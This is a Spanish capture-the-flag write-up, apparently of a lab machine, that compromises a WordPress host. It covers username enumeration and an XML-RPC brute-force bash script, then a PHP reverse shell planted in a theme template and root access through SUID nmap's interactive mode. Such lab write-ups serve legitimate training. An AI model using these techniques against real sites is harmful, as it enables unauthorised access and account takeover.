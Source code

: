 Hacemos el reconocimiento con nmap:
![[Pasted image 20230419170126.png]]
Y esta es la web que corre por el puerto 80:
![[Pasted image 20230419170359.png]]
Y también vemos que el puerto 443 está abierto, por lo que funciona con HTTPS:
![[Pasted image 20230505122341.png]]
Vamos a haer fuzzing, y podemos encontrar directorios web típicos de wordpress como el wp-content o license:
![[Pasted image 20230505130753.png]]
Entramos en el directorio de license, y abajo del todo nos encontramos con una contraseña en base64:
![[Pasted image 20230505130839.png]]
La decodificamos:
![[Pasted image 20230505130912.png]]
Vemos también que se trata de wordpress, por lo que yo se que hay un directorio que será el de wp-admin, por lo que probamos y funciona:
![[Pasted image 20230505123239.png]]
Y vemos que si ponemos un usuario que no existe, no va a funcionar, pero en cambio si ponemos un usuario que sí existe nos dice que la contraseña no es correcta, pero que el usuario sí, por lo que ya sabemos que el usuario es Elliot:
![[Pasted image 20230505123413.png]]
Vemos que si ponemos estas credenciales, ya estamos dentro:
![[Pasted image 20230505131025.png]]
No obstante, también podríamos hacer un ataque de fuerza bruta al fichero xmlrpc.xml. [[conocimiento/Hacking/Hacking Generico/Hacking Web/Hacking WordPress|Hacking WordPress]] de esta forma, por lo que primero lo enumeramos en el navegador:
![[Pasted image 20230505125232.png]]
Vamos a hacerle una petición por POST y veremos que funciona correctamente:
![[Pasted image 20230505125413.png]]
Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20230421133725.png]]
Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20230421133752.png]]
```php
<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Por tanto pegamos este código en un fichero xml:
![[Pasted image 20230421133907.png]]
Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress y vemos que funciona:
![[Pasted image 20230505125633.png]]
Pero este es el más importante, porque aquí es donde podemos hacer el ataque de fuerza bruta:
![[Pasted image 20230505125655.png]]
Y podemos volver a editar el fichero xmlrpc pero esta vez añadiendo unas credenciales y veremos a ver qué nos muestra:
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
![[Pasted image 20230505131241.png]]
Donde vemos que nos indica que las credenciales son correctas:
![[Pasted image 20230505131319.png]]
En este punto podríamos hacer un ataque de fuerza bruta contra este login utilizando el siguiente script:
```php
#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Pasted image 20230421143424.png]]

-------------------------------------------------------------

Una vez dentro de la máquina, podemos ir a la parte de appearence e ir a la parte de editor, para ediutar las distintas plantillas de la web:
![[Pasted image 20230506090051.png]]
Y ahora en github buscamos el código de cómo generar un php malicioso que nos proporcione una reverse shell:
![[Pasted image 20230506090127.png]]
Copiamos el contenido de este documento en la plantilla de 404 error found:
![[Pasted image 20230506090157.png]]
Y ahora si nos ponemos en escucha con netcat y ponemos alguna url errónea en el buscador, habremos recibido la reverse shell:
![[Pasted image 20230506090226.png]]
![[Pasted image 20230506090236.png]]
Una vez dentro, nos encontramos con este archivo:
![[Pasted image 20230506092540.png]]
El cual podemos pasarlo por john the ripper o por crackstation, donde vamos a obtener una contraseña:
![[Pasted image 20230506092608.png]]
Ahora, si intentamos cambiar de usuario empleando estas credenciales, nuevamente tenemos el problema de que la consola nos cierra la posibilidad de introducir datos, imposibilitando el poder realizar cualquier acción.
![[Pasted image 20230506095346.png]]
No obstante, podemos ejecutar un comando de Python para arreglar este problema, donde nos vamos a ganar una bash un poco más funcional donde sí podremos poner la ocntraseña del usuario robot; y el comando es este:
```python
python -c "import pty;pty.spawn('/bin/bash')"
```
![[Pasted image 20230506095546.png]]
Una vez siendo este usuario, podemos ver los permisos SUID, donde vemos que podemos ejecutar nmap:
![[Pasted image 20230506095752.png]]
Y lo interesante es que nmap tiene un modo interactivo, donde podemos ejecutar comandos; y como podemos ejecutar nmap como root, ya seremos usuarios root de esta forma:
![[Pasted image 20230506095901.png]]
En cuanto a la primera flag, está dentro del directorio web de robots.txt:
![[Pasted image 20230506100158.png]]
